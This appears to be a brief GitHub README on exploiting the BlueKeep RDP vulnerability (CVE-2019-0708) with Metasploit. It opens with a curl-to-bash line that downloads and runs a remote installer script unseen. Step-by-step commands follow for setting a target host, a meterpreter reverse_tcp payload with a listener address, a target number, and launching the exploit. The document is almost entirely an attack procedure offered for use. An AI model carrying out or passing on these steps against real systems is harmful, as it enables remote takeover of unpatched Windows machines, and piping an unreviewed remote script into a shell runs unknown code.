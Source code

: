 [![Read more](https://github.com/nu11secur1ty/Kali-Linux/blob/master/BlueKeep/wall/BlueKeep_OG.jpg)](https://blog.rapid7.com/2019/09/06/initial-metasploit-exploit-module-for-bluekeep-cve-2019-0708/)

More: https://github.com/rapid7/metasploit-framework/pull/12283


- Automation installer:
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/Kali-Linux/master/BlueKeep/bk.sh | bash
```
- SET Target:
```bash
SET RHOSTS 0.0.0.0 # target
SET payload windows/64x/meterpreter/reverse_tcp # set the module
SET LHOST 0.0.0.0 # Your IP for receavin
```
- Check for targets
```bash
show targets
```
- Set Target number
```bash
SET target x
```
- Exploit the target 
```bash 
exploit
```
